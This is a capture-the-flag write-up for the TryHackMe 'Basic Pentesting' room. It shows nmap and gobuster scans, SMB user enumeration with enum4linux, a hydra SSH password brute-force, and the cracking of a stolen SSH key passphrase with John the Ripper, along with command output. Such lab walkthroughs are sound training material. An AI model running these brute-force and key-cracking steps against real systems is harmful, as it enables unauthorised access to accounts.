   **

## THM  Basic Pentesting 
In this writeup Today we're going to try to Solve a room in THM called Basic Pentesting
[Basic Pentesting Room](https://tryhackme.com/room/basicpentestingjt)
**The First Task :**

 - **Deploy the machine and connect to our network**

 **Second Task :**  

 - **Scan The Machine Service**

 

 - open nmap

 $ nmap -sC -sV -oN Result.txt 10.10.26.87

 ```bash
Nmap scan report for 10.10.26.87
Host is up (0.077s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h19m59s, deviation: 2h18m34s, median: -1s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2021-02-22T06:26:54-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-02-22T10:26:54
|_  start_date: N/A
 ```

 - ports  : 22  -  139 - 445
 - Now we need to take a look on the source code in main page
   10.10.26.87
	
 - sorce code : ![enter image description here](https://res.cloudinary.com/micro0x00/image/upload/v1614046984/source_kimyp5.png)
 - Now we will use [gobuster](https://github.com/OJ/gobuster) to search 
   for directories with brute-force
   

       gobuster dir -u http://10.10.26.87/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40
	```
	===============================================================
	Gobuster v3.1.0
	by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
	===============================================================
	[+] Url:            http://10.10.26.87
	[+] Threads:        40
	[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
	[+] Status codes:   200,204,301,302,307,401,403
	[+] User Agent:     gobuster/3.0.1
	[+] Timeout:        10s
	===============================================================
	2020/06/16 08:40:01 Starting gobuster
	===============================================================
	/development (Status: 301)
	```
	Now we go to [http://10.10.26.87/development/](http://10.10.26.87/development/)![enter image description here](https://res.cloudinary.com/micro0x00/image/upload/v1614047853/dev_bz7ebo.png)
	
	dev.txt:![enter image description here](https://res.cloudinary.com/micro0x00/image/upload/v1614048283/1_e5ukco.png)
	J.txt:![enter image description here](https://res.cloudinary.com/micro0x00/image/upload/v1614048378/j_xvyhf4.png)
	

## What is the username?

Now we will get user 
Try hack me give us a hint to get the user 
We have smbd open, that can give us a lot of information. We can use Enum4linux for that.

    enum4linux 10.10.26.87

![enter image description here](https://res.cloudinary.com/micro0x00/image/upload/v1614050311/Screenshot_2021-02-23_051756_ldpe6n.png)
after waiting for 5 minutes we get two user names

```
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User) <=======

```
users pop up, **jan** a.k.a. J and **kay** a.k.a. K (دماغ شغالة مش بتنام)

## What is the password ?

we will brute-force password by hydra

    └─$ hydra -l jan -P wordlist.txt ssh://10.10.26.87
```bash
login: jan & password: armando
```

## What service do you use to access the server(answer in abbreviation in all caps)?
**answer : ssh**

## What is the name of the other user you found(all lower case)?
**answer : kay**
Unfortunately when we try to ssh using the key file we see the key requires a password.

```
jan@basic2:/home/kay/.ssh$ ssh -i id_rsa kay@127.0.0.1
Enter passphrase for key 'id_rsa':

```

But luckily we can cat out this file and crack the key with  [JohnTheRipper](https://github.com/gwagstaff/CTF-Write-Ups/blob/master/TryHackMe/Basic_Webapp/9)

Using  `ssh2john.py id_rsa > john_id_rsa.hash`  we get a john-crackable file that we can start here.  `john --wordlist=/usr/share/wordlists/rockyou.txt john_id_rsa.hash`

But it quickly finds the password for the key file

```
[REDACTED]         (kay_id_rsa)

```

Trying again with the ssh file we easily log in with the file password and get the pass.bak!

Since there isnt a flag for this we can only think about the possible information we could do. Using an additional user we could see if it was part of any groups in  `/etc/groups`  or have programs that you can sudo  `Check with sudo -l`  . It truly depends on what is configured on a machine, but running something like LinPeas.sh will give you a good starting point!

## What is the final password you obtain?

That contains our final flags!

